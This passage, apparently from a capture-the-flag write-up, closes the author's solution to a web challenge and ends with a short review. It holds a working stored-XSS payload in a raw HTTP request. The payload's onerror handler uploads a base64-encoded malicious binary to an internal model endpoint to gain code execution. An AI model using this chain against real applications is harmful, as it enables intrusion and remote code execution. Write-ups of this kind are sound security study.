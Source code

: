 #### File upload of the binary with Javascript
Now that we have a binary to execute arbitrary code, we just need to find a way to upload it using our `XSS`. But how?\
After a long time, I figured that the best way to do this was to take the **binary source** of our executable and **upload it by encoding it in some way, like base64**. Since I'm not really a Javascript expert, I kindly asked ChatGPT for some advices, and after a long session of chatting he came out with this code:
```javascript
const formData = new FormData();
formData.append(
	'file',
	new File([
				Uint8Array.from(atob('<base64code>'),
				char => char.charCodeAt(0))
			],
	'exploit.h5',
	{ type: 'application/x-hdf' })
);
```
{{< alert >}}To get the encoded source of the binary, it should be enough to execute this command: `cat exploit.h5 | base64`{{< /alert >}}
*But how does this work?* The code creates a `FormData` object to manage the _file uploading_. After that, we can add our file object, which was created by decoding the **base64** containing the source of our malicious binary, and by specifying its `mimetype`.

#### Putting it all together
Now we just need to put everything together! We said that the `XSS` will be our _"entrypoint"_, so I started by intercepting a request to submit a complaint with `Burp`, and then I modified it to insert our payload:

```
POST /api/complaint HTTP/1.1
Host: 188.166.175.58:30126
Content-Length: 29684
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
X-SPACE-NO-CSRF: 1
Content-Type: application/json
Accept: */*
Origin: http://188.166.175.58:30126
Referer: http://188.166.175.58:30126/try
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: space_cookie=f37395b9-4a86-4cfa-9f48-bd70549b22b3
Connection: close

{
	"description":"aaa",
	"image_data":"data:image/png;base64,<base64image>",
	"prediction": "</b></p><img src=a onerror=\"fetch('http://<CHALLENGE_URL>/api/internal/model', {'headers': {'x-space-no-csrf': '1'}, body: (() => { const formData = new FormData(); formData.append('file', new File([Uint8Array.from(atob('<base64binary>'), char => char.charCodeAt(0))], 'exploit.h5', { type: 'application/x-hdf' })); return formData; })(), 'method': 'POST'})\">"
}
```
Then I just had to wait a bit, and I received the flag with a request on the **Webhook!**

## Review
I'm not really good at writing reviews, so I'll just say that this challenge was particularly stimulating to me, especially the exploitation part, and the sense of satisfaction I had solving it was just great: totally recommended!